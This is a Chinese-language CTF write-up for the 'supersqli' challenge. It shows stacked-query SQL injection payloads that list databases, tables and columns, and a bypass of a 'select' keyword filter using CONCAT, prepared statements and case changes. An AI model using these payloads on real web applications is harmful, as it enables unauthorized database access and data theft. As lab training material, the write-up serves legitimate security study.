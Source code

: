 # 题目描述
![image](https://user-images.githubusercontent.com/24989246/175016233-5b1b0e25-d205-48a4-b68c-bd7af64b7491.png)

# 解题思路
## 题目提示了是supersqli,所以尝试下sql注入
## 尝试下 1',发现报错，肯定存在sql注入点
![image](https://user-images.githubusercontent.com/24989246/175016538-d6a222a5-ec09-4266-8479-32cf1a747913.png)

## 列出数据库和表名
1';show databases;#    1';show tables#
![image](https://user-images.githubusercontent.com/24989246/175016921-a0229ba2-011d-4f7d-ae45-2100cc42a2eb.png)

## 发现数字的表名比较奇怪，列出字段试试
 1';show columns from `1919810931114514`;# 
 ![image](https://user-images.githubusercontent.com/24989246/175017051-f7033f4e-bbcd-4807-a91a-c553254da2d2.png)
 
## 发现flag字样，直接查询试试
![image](https://user-images.githubusercontent.com/24989246/175017186-4badfa4e-3485-43d5-9bde-48944ccc4fb8.png)

## 发现select被过滤了，尝试下预编译
```sql
1';
set @sql = CONCAT('sele','ct flag from `1919810931114514`;');
prepare stmt from @sql;
EXECUTE stmt;#
```
![image](https://user-images.githubusercontent.com/24989246/175017366-0ea839ad-b036-4fdd-b3d3-83acc2750a54.png)

## 发现set函数和prepare函数被过滤了，但是，strstr函数不区分大小写，所以，修改大小写尝试下
```sql
1';
Set @sql = CONCAT('sele','ct flag from `1919810931114514`;');
Prepare stmt from @sql;
EXECUTE stmt;#
```
![image](https://user-images.githubusercontent.com/24989246/175017792-4762b108-ac39-4301-9c7d-44cd64518a1f.png)

## 成功拿到flag

